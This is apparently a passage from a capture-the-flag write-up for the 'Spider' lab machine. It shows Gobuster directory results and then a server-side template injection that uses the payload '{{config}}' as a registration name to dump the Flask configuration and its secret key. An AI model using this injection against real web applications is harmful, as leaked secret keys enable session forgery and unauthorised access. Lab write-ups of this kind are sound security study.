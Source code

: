 
## Gobuster results

```c
===============================================================
/cart                 (Status: 500) [Size: 290]
/checkout             (Status: 500) [Size: 290]
/index                (Status: 500) [Size: 290]
/login                (Status: 200) [Size: 1832]
/logout               (Status: 302) [Size: 209] [--> http://spider.htb/]
/main                 (Status: 500) [Size: 290]
/product-details      (Status: 308) [Size: 275] [--> http://spider.htb/product-details/]
/register             (Status: 200) [Size: 2130]
/user                 (Status: 302) [Size: 219] [--> http://spider.htb/login]
/view                 (Status: 302) [Size: 219] [--> http://spider.htb/login]
===============================================================
2021/11/05 13:30:13 Finished
===============================================================
```

---

## Enumration

--> I tried to register with the username and password and then logged in . After that i saw that we can see the user info in `user information` tab and it's assigning unique `UUID` for each user.

--> I tried the basic SSTI payload `{{config}}` and registered with this name and found that we can see the config files.

==> Note: Name must be smaller than 10 characters.

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```

--> I found the secret key in this file :

```bash
Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
```
